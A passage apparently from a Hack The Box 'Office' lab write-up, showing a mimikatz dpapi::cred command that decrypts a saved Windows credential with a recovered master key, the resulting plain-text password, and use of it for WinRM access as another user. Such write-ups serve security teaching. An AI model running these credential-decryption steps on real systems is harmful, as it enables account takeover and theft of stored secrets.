 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-63.png)

We will now utilize the master key and decrypt the credentials stored in the protected directory in clear test: **H4ppyFtW183#**

`dpapi::cred /in:C:\users\ppotts\appdata\roaming\Microsoft\credentials\84F1CAEEBF466550F4967858F9353FB4 /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-64.png)

Now that we have the password, we should be able to access winrm as **hhogan**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-65.png)
